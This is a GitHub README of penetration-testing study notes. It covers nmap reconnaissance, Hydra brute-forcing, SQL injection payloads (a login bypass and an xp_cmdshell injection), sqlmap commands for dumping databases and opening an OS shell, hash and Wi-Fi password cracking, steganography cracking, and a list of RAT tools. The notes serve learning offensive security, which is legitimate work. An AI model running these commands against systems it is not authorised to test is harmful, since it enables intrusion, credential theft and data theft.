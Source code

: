 # OffSec-Notes
Repository created for keeping notes on various topics, vulnerabilities and tools useful in penetration testing. 

# Reconnaissance

### Some Common Ports

 Port     | Service  | Protocol          |
| --------|:--------:| -----------------:|
| 21      | FTP      |    TCP, UDP, SCTP |
| 22      | SSH      |    TCP, UDP, SCTP |
| 137     | NetBIOS  |    TCP, UDP       |
| 161     | SNMP     |    UDP            |
| 445     | SMB      |    TCP, UDP       |
| 3389    | RDP      |    TCP            |

<details>
<summary>nmap</summary>

```sudo nmap -sn 192.168.0.0/24``` - Check for hosts only, disable port scan (-sn).

```nmap -sT [IP]``` - Use TCP connect scan (-sT) if not root/sudo user. Only option for non sudoers.

```sudo nmap [IP] ``` -  By default nmap uses TCP SYN scan (-sS), but this should be used only from root/sudo user.

```sudo nmap -sV -O -v [IP] -p- -oN [Filename.txt]``` - Default SYN scan with enabled version detection (-sV) and OS detection (-O). Additional flags - verbose mode (-v), all ports (-p-), output to .txt file (-oN). 

```sudo nmap -A [IP]``` - Default SYN scan with enabled OS detection, version detection, script scanning, and traceroute (-A).

```sudo nmap --script http-methods [IP]``` - Default SYN scan with specific script (--script). As an example script *http-methods* (enumerates allowed HTTP methods) is used.

```sudo nmap -sU [IP]``` - Performs UDP scan (-sU).

```-n``` - Tells Nmap to never do reverse DNS resolution on the active IP addresses it finds. Since DNS can be slow even with Nmap's built-in parallel stub resolver, this option reduces scanning times.

Useful nmap scripts:

 Script   | Service  | Description |
|:--------|:--------|:-----------|
| smb-os-discovery.nse    | SMB (445)  | Enumerate OS, domain name,etc. |
| smb-enum-users.nse      | SMB (445)  | Used to enumerate all users on remote Windows system using SAMR enumeration and LSA bruteforcing. |
| smb-enum-shares.nse     | SMB (445)  | SMB shares. |

</details>

# Brute-force
<details>
<summary>Hydra</summary>

```sudo hydra -l <username> -P <wordlist> [URL] ssh``` - Basic Hydra command for brute-forcing ssh password. Works similarly with other protocols such as FTP.

```sudo hydra -l <username> -P <wordlist> [base_URL] http-post-form "<path>:<login_credentials>:<invalid_response>"``` - Hydra command for HTTP POST form. Path need to be specified seperately from base URL.

</details>

# SQL Injection

For SQL injection focused task either perform the injection manually or use sqlmap tool. Check fields using single quote or encoded single quote.

```blah' or 1=1 --``` - Basic login bypass payload. Adjust for specific case.

```blah';exec master..xp_cmdshell 'ping [URL] -l 65000 -t'; --``` - Example command to pop shell through sql injection.

<details>
<summary>sqlmap</summary>

```sudo sqlmap -u “[URL]” --cookie="[cookie_value]" --dbs``` - Initial command to enumerate databases (--dbs). Add cookie values if necessary (--cookie).

```sudo sqlmap -u “[URL]” -D [database_name] --tables``` - Enumerate tables in the specified database (--tables).

```sudo sqlmap -u “[URL]” -D [database_name] -T [table_name] --columns``` - Enumerate columns in the specified table (--columns).

```sudo sqlmap -u “[URL]” -D [database_name] -T [table_name] --dump``` - Dump all data from table (--dump).

```sudo sqlmap -u “[URL]” --os-shell``` - Pop shell through sqlmap (--os-shell).

```sudo sqlmap -r [filename] --batch -v 5 | tee [output]``` - Use sqlmap with request from file (-r), for example, captured by Burp. This command also uses standard behaviour (--batch) and saves the output to a file (| tee)


</details>

# Android hacking
<details>
<summary>ADB</summary>

```adb devices``` - Check for devices connected to the host.

```adb shell``` - Enter phone terminal.

```adb shell pm path [package_name]``` - Check path for given app package.

Package names can be viewed via Google Play store. For example: https://play.google.com/store/apps/details?id=com.swapcard.apps.android.blackhat&hl=en_IN

Package name in this case is "com.swapcard.apps.android.backhat"

![image](https://github.com/MaxLazerhawk/OffSec-Notes/assets/53828427/31e2fce7-9d1e-4b85-9ae3-49e13fc81c48)

</details>

# Cryptography
<details>
<summary>hashcat</summary>
Useful sites for online hashes:
  
- https://hashes.com
- https://hashes.com/en/tools/hash_identifier

Can also use hashid to identify hash type:

```hashid -m [hash]```
- m to show corresponding hashcat mode.

Standard hashcat command:

```hashcat -a 0 -m [hash_mode_id] [hash] [wordlist]``` 
- Straight attack mode suited for wordlist (-a 0).
- Specified hash type (-m).

If hashcat does not work consider using John the Ripper.

------

</details>

<details>
<summary>John the Ripper</summary>

```john --format=nt --wordlist=<path-to-wordlist> <hash>```
- Set hash format (--format=).
- Set wordlist (--wordlist=).

For hash formats check:
https://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats

------

</details>

</details>

<details>
<summary>Other Tools</summary>

**Hashmyfiles** - For calculating and comparing hashes of files. Can be used to compare hashes and find tempered data.

**CryptoForge** - For easy encrypting and decrypting using password.

**BcTextEncodes** - For encoding and decoding text in file (.hex). 

**Cryptool** - For encryption/decryption of hex data - by manipulating the key length. This tool can perform brute-force analysis.

**Veracrypt** - For hiding and encrypting disk partitions. Can also be used to open encrypted disk partition (mount). Outer and inner partitions has separate passwords.

</details>

# Malware Threats

<details>
<summary>RAT's</summary>

You need to target the right IP and port number (try default first).
You need to use the right tool from the available.

Example tools to establish a connection to a RAT:
- njRAT
- MoSucker
- ProRat
- Theef
- HTTP RAT

</details>

<details>
<summary>Malware Analysis Tools</summary>

**DIE (Detect it Easy)** - Scan and analyze .elf files.

</details>

# Steganography
<details>
<summary>Tools</summary>

**SNOW** - [placeholder]. 

**Steghide** - [placeholder].

```steghide extract -sf [file]``` - Extract confidential file from, for example, picture .jpg file.

```stegcracker <file> [wordlist]``` - Crack password protected file.

</details>

# Wireless Attacks
<details>
<summary>aircrack-ng</summary>
Used to crack .cap files. WEP, WPA/WPA2 wireless networks.

```aircrack-ng [filename].cap```

- Works for WEP.
- If the capture file has sufficient packets aircrack will be able to crack it.

```aircrack-ng [filename].cap -w [file]``` 

- Works for WPA.
- Dictionary added (-w).

</details>
